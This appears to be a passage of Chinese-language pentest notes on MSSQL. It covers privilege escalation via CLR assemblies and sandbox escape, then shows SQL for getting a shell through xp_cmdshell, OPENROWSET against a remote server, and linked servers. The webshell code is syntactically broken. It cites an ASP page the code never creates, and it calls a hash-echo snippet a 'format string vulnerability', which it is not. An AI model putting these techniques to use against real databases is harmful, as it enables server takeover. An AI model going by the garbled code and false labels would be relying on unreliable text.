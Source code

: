 #### 8.CLR提权

+  先创建CLR组件,指定组件owner为`sa`等高权限用户
+  低权限用户调用作为owner的CLR组件,就可以执行高权限命令,实现提权



#### 9.沙盒提权

+  MSSQL中的沙盒机制可以限制SQL代码的执行权限
+  但是如果可以编写和执行CLR或Python等语言的代码,就可以绕过沙盒限制获取更高权限
+  这种利用CLR、Python等脚本语言来逃逸MSSQL沙盒限制的方法可以达到提权的目的





### 2. 不使用SQLMAP的OS-SHELL，各种数据库怎么写SHELL

[https://www.yuque.com/just0rg/gzlqo7/ui5wvo](https://www.yuque.com/just0rg/gzlqo7/ui5wvo)

#### 1. MSSQL WEBSHELL

```plsql
CREATE TABLE shell (cmd nvarchar(max))
go

INSERT INTO shell VALUES('whoami')
go

DECLARE @res NVARCHAR(MAX)
EXEC xp_cmdshell SELECT cmd FROM shell, @res output
SELECT @res

访问`http://xxx.com/shell.asp?id=1`,返回服务器用户名。


- 使用OPENROWSET读取远程文件:
SELECT * FROM OPENROWSET('SQLOLEDB','Server=ip;Trusted_Connection=yes;','EXEC master..xp_cmdshell ''command'' ')


- 使用LINKED SERVER执行远程命令:
EXEC ('xp_cmdshell ''whoami'' ') AT linkedservername  


- 使用格式化字符串(format string vulnerability)执行命令:
DECLARE @var VARCHAR(100)
SET @var = 'echo ' + CONVERT(VARCHAR(8000), HASHBYTES('MD5', '1'), 2) COLLATE SQL_Latin1_General_CP1_CI_AS
EXEC(@var)
```





